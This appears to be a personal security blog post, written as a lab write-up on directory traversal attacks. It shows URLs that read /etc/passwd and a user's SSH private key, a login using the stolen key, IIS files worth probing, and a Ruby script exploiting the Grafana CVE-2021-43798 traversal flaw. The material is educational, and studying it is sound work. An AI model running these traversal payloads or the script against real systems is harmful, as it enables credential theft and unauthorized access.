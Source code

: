 ```yaml
---
layout: post
title: Directory Traversal Exploit
titledate: 08/27/23
tags: ["infosec","offsec", "web", "wordpress","exploit","shell","dir_traversal"]
---
```


<h4>Linux</h4>

When browsing a site we can hover over links to get an idea of the directory structure of the web application on the server.

Of course using tools like gobuster or feroxbuster can help us enumerate this dir structure easily, but it may be possible to perform directory traversal attack by traversing directories to try to access content outside of the web server

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../etc/passwd

You only need to give the minimum number of ../ to get to the root directory from the current working directory of the web page you are on, however, since there is no maximum we can just provide a large number of ../ to get to the root path

From the above command we can obtain a list of users on the system. With this information we learn about a user DON. We can try to find DON's ssh key with a typical directory layout 

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

If this request returns the private ssh key for don , we should use a different procedure to obtain the key as displaying content in the web browser can often get skewed as many characters may not be properly encoded. We can use wget, curl, or python/ruby to retrieve this information

    $ curl http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

Once we obtain the key we need to change the permissions on it because they are too open

    $ chmod 400 don_key

Now we can attempt to ssh to the machine hosting the vulnerable web server

    $ ssh -i don_key -p 2222 don@vulnwebapp.com

<h4>Windows</h4>

Windows is a little more difficult to obtain useable information than linux

    $ C:\Windows\System32\drivers\etc\hosts

This file should be accessible by all users and useful to try dir traversal attacks

<h3>We can not reach useful ssh data like we do for Linux, but information disclosure can still be relevant depending on what directory contents we can disclose</h3>

    $ C:\inetpub\logs\LogFiles\W3SVC1
    $ C:\inetpub\wwwroot\web.config

The files above both contain information about the IIS server, so it is always worth probing the directories to see what we can find

<h4>Grafana Use Case</h4>

This exercise requires us to ty to use a dir traversal against Grafana. We are given the CVE (vulnerability), so we have to assume we would not know this information. To begin we would need to identify the Web App Grafana and version, or at the least the Software name (Grafana) and if it doesn' have a lot of publicaly disclosed vulnerabilities then we can fire from the hip and see what sticks

In this case as expressed we are given the CVE 2021-43798 , reading the NVD description we can already glean tons of info - the vuln is a dir path traversal in the /public/plugins//{plugin} directory. So while there are publicaly available exploits for this - we don't need them

First we need to identify what plugin is installed 
I began by running gobuster and feroxbuster against the plugins directory but they did not find anything... so we need to create a custom wordlist of plugins available to Grafana

    $ curl https://grafana.com/grafana/plugins/all-plugins/ -o plugins

This downloads plugins listed on their site from their all-plugins page in an html file

```ruby
data = File.open("/home/kali/plugins","r"){|f| f.read }
plugins = data.split('href=/grafana/plugins/')
# i started at 8 bc i could visibly see that's where the list starts
# with a bunch of garbage we don't care about above
plugins[8..-1].each do |plugin|
  name = plugin.split('/><div>')
  File.open("/home/kali/plugin_name","a"){|f|f.write("#{name[0]}\n")}
end
```

This gives us a line delimted list of 369 plugins to brute force with gobuster or feroxbuster
...

Unfortunately - After failing to get any useable response codes from requesting the above base uri + /public/plugins/{plugin} I have determined that you would need to try the traversal 1 at a time per plugin... this really goes sums up my earlier point that you need to know the version of the application and then look for the canned exploit. 

I could write a script to iterate through the plugins 1 at time that i already created, but it turns out searchsploit has an attack for this already

Looking at the python searchsploit script i can see that it chooses 1 plugin randomly? and does not seem to work well for this use case, so i wrote a small ruby script to use the line delimitted plugins file i scraped

```ruby
#!/usr/bin/env ruby
def pwn
  plugin_file = File.open("/home/kali/plugin_name","r") do |f|
    f.each_line { |line|
      line = line.chomp
      puts "trying #{line}"
      # public/plugins is the vulnerable root of the plugin we can understand from the NVD CVE disclosure -
      # sucks we can't get a useable response from directory fuzzing
      cmd = "curl --path-as-is http://#{ARGV[0]}/public/plugins/#{line}/../../../../../../../../../../../#{ARGV[1]}"
      puts "trying #{cmd}"
      system(cmd)
    }
  f.close
  end
end

if ARGV[0] == '-h' || ARGV[0] == '--help' || ARGV[0] == nil
  puts "[+] plugin_pwn.rb ip file"
  puts "[+] where ip is ipaddress"
  puts "[+] and file is file to read"
  exit
else
  puts "[+] probing.. #{ARGV[0]}"
  pwn
end
```

So to execute it 

    $ ruby plugin_pwn.rb 192.168.255.190:3000 Users/install.txt

Most likely this script won't be useable in the future.. from this exercise I learned that it won't be easy to identify file/directory structures always and that if there isn't enough available information on the vulnerability it will take TOO MUCH time .. so look for what's available and it will make modifying the attack easier
